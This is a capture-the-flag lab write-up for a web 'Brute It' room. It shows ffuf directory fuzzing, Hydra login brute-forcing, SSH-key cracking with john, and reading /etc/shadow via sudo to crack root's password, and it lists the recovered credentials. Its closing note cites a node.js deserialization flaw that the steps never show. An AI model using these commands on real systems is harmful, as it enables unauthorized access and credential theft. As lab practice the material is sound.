










<div align="center">


# Brute It

**Difficulty:** Easy
**Category:** Web

</div>

---


```bash
ffuf -u http://10.80.157.210/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```


I am met with this page:


I think hydra works here?
I need usernames, view page source:



Two users, john and admin.


```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.80.157.210 http-login-form "/admin:user=^USER^&pass?^PASS^: Username or password invalid"
```

Hydra syntax is like this:
```bash
hydra -l <user> -P <password_list> <ip> <type_of_login> "/path:<arguments_to_pass>:Fail code"
```

I typed it out wrong and waited for 15 min, it took 2 sec when done correctly.



admin:123456



Typical Hydra tweaking, none of them work.

```bash
hydra -l admin -P rockyou.txt 10.80.157.210 http-post-form "/admin/:user=^USER^&pass=^PASS^:F=invalid"
```
The `F=invalid` was required ??? 



admin:xavier



```
THM{brut<REDACTED>s_e4sy}
```

Download RSA key and brute force it (It was password protected):


```bash
ssh2john id_rsa > id_rsa_john
```
* Converts the id_rsa key into a crackable john hash

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_john
```



```bash
ssh -i id_rsa john@10.80.157.210
```



Niceu

```bash
THM{a_o<REDACTED>a_barrier}
```



```
THM{pr<REDACTED>t10n}
```

```bash
sudo cat /etc/shadow
john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt test.hash
```



root:football


I used sudo cat to open root.txt. 

#AfterReview 
**Getting error messages can often give useful information, sometimes the application will leak version, or what went wrong in the error message**
* In this case the deserialization could be found through the node.js cookie error message.